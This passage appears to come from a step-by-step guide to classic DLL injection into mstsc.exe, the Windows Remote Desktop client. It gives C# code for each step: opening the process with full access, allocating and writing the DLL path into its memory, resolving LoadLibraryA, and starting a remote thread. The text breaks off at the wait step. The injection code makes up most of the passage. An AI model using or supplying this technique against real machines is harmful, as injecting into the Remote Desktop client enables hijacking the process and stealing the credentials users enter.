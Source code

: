 ### **Step 2: Use a DLL Injection Tool**

#### **Method 1: Classic DLL Injection using `CreateRemoteThread`**

1. **Find the Target Process (`mstsc.exe`):**

   First, find the Process ID (PID) of `mstsc.exe`. You can use tools like Task Manager, Process Explorer, or do it programmatically:

   ```csharp
   Process[] processes = Process.GetProcessesByName("mstsc");
   int pid = processes[0].Id;  // Assuming there's only one instance
   ```

2. **Open the Target Process:**

   Open a handle to the `mstsc.exe` process:

   ```csharp
   IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
   ```

3. **Allocate Memory in the Target Process:**

   Allocate memory in the target process for the DLL path:

   ```csharp
   IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, dllPath.Length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   ```

4. **Write DLL Path to the Allocated Memory:**

   Write the DLL path to the allocated memory:

   ```csharp
   bool result = WriteProcessMemory(hProcess, allocMemAddress, Encoding.Default.GetBytes(dllPath), dllPath.Length, out _);
   ```

5. **Get Handle for `LoadLibraryA`:**

   Get a handle to `LoadLibraryA` in `kernel32.dll`:

   ```csharp
   IntPtr loadLibAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
   ```

6. **Create a Remote Thread:**

   Create a remote thread in the target process that calls `LoadLibraryA` with the DLL path as an argument:

   ```csharp
   IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibAddress, allocMemAddress, 0, IntPtr.Zero);
   ```

7. **Wait for the Thread to Complete:**

   Wait for the remote thread to complete its execution:
